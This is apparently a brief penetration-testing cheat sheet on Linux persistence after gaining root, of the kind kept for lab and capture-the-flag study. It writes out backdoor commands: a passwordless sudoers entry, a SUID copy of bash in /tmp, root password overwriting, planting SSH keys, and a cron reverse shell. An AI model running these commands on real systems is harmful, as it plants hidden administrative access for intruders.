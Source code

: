 # 4 persistence

## Root

- Once obtained root, create administrative backdoors using

```shell
# give sudo access
echo "username ALL=NOPASSWD:ALL" >> /etc/sudoers
```

```shell
# give SUID set bash executable
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

```shell
# overwrite passwords
openssl passwd root
```

## SSH

- Check for the existence of a private key in `~/.ssh/id_rsa`.

- Generate your own SSH key using this [tutorial](https://docs.github.com/en/authentication/connecting-to-github-with-ssh/generating-a-new-ssh-key-and-adding-it-to-the-ssh-agent?platform=linux)

```shell
ssh-keygen -t ed25519 -C "your_email@example.com"
```

- Upload public key of SSH key pair to `authorized_keys_file`.

## Cronjob

- Set up cronjob that establishes reverse shell
 